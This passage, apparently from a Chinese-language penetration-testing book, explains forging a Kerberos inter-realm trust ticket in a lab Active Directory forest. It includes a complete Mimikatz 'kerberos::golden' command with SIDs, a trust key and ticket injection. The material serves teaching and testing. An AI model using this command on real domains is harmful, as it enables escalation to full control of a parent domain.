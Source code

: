 图 6.29 – 伪造的金票证提供对父域中域控制器的访问

第二种选择是创建一个使用信任密钥加密的 TGT（目标票证）推荐票证。信任密钥的名称格式为 **domain$**。伪造跨域票证的命令如下：

```
kerberos::golden /user:Administrator /domain:north.sevenkingdoms.local /sid:S-1-5-21-3600105556-770076851-109492085 /sids:S-1-5-21-4243769114-3325725031-2403382846-519 /rc4:b595f2a41d4579ae6faa122b74b37ccb /service:krbtgt /target:sevenkingdoms.local /ptt
```

以下结果与伪造金票证获得的结果相同：

![图 6.30 – 伪造的跨域票证提供对父域中域控制器的访问](img/B18964_06_30.jpg)

